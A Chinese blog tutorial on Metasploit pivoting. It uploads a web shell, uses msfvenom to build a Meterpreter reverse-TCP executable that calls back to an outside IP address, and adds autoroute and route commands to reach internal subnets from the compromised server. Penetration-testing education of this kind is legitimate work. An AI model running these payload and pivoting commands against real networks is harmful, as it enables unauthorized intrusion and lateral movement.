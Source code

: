 **目录**



[反弹MSF类型的Shell](#t0 "反弹MSF类型的Shell")



[添加内网路由](#t1 "添加内网路由")



* * *



MSF的跳板功能是MSF框架中自带的一个路由转发功能，其实现过程就是MSF框架在已经获取的Meterpreter Shell的基础上添加一条去往“[内网](https://so.csdn.net/so/search?q=%E5%86%85%E7%BD%91&spm=1001.2101.3001.7020)”的路由，直接使用MSF去访问原本不能直接访问的内网资源，只要路由可达了那么我们就可以使用MSF来进行探测了。



我们现在有下面这个环境：



Web服务器通过[端口映射](https://so.csdn.net/so/search?q=%E7%AB%AF%E5%8F%A3%E6%98%A0%E5%B0%84&spm=1001.2101.3001.7020)，对外提供Web服务。Web服务器上有两张网卡，内网分别还有其他两台服务器，一台开放了http服务，一台开放了SMB服务。拓扑图如下：



![](https://img-blog.csdnimg.cn/20190617173911841.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 反弹MSF类型的Shell



我们通过web渗透，成功往Web服务器上上传了一句话木马，成功用菜刀连接。



然后我们现在想获得一个MSF类型的Shell。



我们先生成一个木马文件



```
msfvenom -p windows/meterpreter/reverse_tcp lhost=112.74.89.58 lport=42906 -f exe -o test.exe
```




![](https://img-blog.csdnimg.cn/20190617160840759.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



用菜刀上传到Web服务器上，然后执行我们的木马程序，Kali成功获得反弹的MSF类型的shell。



![](https://img-blog.csdnimg.cn/20190617160935747.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 添加内网路由



然后我们现在想要继续渗透内网。



我们先获取目标内网相关信息，可以看到该主机上的网卡有两个网段。



```
run get_local_subnets
```




![](https://img-blog.csdnimg.cn/20190617161042275.png)



如果我们不添加这两个网段路由的话，是探测不到这两个网段其他主机的。



以下是手动添加到达192.168.11.0和192.168.12.0的路由



```
#在全局给指定的session增删路由      
route add 192.168.11.0  255.255.255.0  1     #在session1中添加到达192.168.11.0网段的路由      
route add 192.168.12.0  255.255.255.0  1     #在session1中添加到达192.168.12.0网段的路由      
route add 0.0.0.0       0.0.0.0        1     #在session1中添加到达0.0.0.0/24网段的路由      
route del 192.168.12.0  255.255.255.0  2     #在session2中删除到达192.168.12.0网段的路由      
route print    #打印路由信息       
#也可以在进入session下添加路由      
run autoroute -s 192.168.11.0/24             #添加到达192.168.11.0网段的路由      1
run autoroute -s 192.168.12.0/24             #添加到达192.168.12.0网段的路由      1
run autoroute -s 0.0.0.0/0                   #添加到达0.0.0.0/0的路由      1
run autoroute -p                             #打印路由信息
```




![](https://img-blog.csdnimg.cn/20190617173514402.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



以下是添加路由前后探测的对比信息。



![](https://img-blog.csdnimg.cn/20190617173605412.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20190617173645641.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**注意：在实际的内网渗透中，我们可以直接添加到 0.0.0.0/0 的路由。这样，只要该被控主机可达的地址就都可达！**



 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)



参考文章：[使用Metasploit进行路由转发](https://www.jianshu.com/p/9eb48aba3fe0 "使用Metasploit进行路由转发")



                  [Metasploit路由转发实现内网渗透](https://www.freebuf.com/column/194400.html "Metasploit路由转发实现内网渗透")



相关文章：[后渗透阶段之基于MSF的内网主机探测](https://blog.csdn.net/qq_36119192/article/details/92556219 "后渗透阶段之基于MSF的内网主机探测")